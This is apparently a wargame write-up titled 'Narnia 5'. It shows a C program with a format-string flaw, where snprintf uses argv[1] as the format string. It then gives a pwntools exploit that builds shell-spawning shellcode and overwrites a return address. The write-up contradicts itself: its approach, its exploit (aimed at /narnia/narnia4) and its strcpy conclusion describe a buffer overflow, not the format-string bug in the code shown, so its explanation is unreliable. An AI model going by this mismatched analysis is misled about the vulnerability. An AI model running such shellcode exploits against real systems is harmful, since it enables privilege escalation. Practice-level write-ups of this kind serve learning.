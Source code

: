 # Narnia 5

## C File

```c
int main(int argc, char **argv){
        int i = 1;
        char buffer[64];

        snprintf(buffer, sizeof buffer, argv[1]);
        buffer[sizeof (buffer) - 1] = 0;
        printf("Change i's value from 1 -> 500. ");

        if(i==500){
                printf("GOOD\n");
        setreuid(geteuid(),geteuid());
                system("/bin/sh");
        }

        printf("No way...let me give you a hint!\n");
        printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
        printf ("i = %d (%p)\n", i, &i);
        return 0;
}
```


## Approach

This is basically exactly the same as narnia2

If we make `argv[1]` large enough it will overflow and rewrite the return address

We make the return address back to the buffer filled with shellcode

## Solution

```python
from pwn import *
offset = 264
payload = asm(shellcraft.setresuid() + shellcraft.sh())
payload = payload + b'A' * (264-len(payload))
payload = payload + p32(0xffffd124)
p = process(["/narnia/narnia4", payload])
#p = gdb.debug(["/narnia/narnia4", payload], gdbscript="source /opt/gef/gdbinit.py")
p.interactive()
```

Again we find the offset using `cyclic` and the address to the buffer using `gdb`

then we just put the shellcode, fill up the buffer, and add the address of the buffer

We run it and get a shell as narnia5 and open the password file

## Conclusion

Again be careful with `strcpy` as its an easy way to cause a buffer overflow
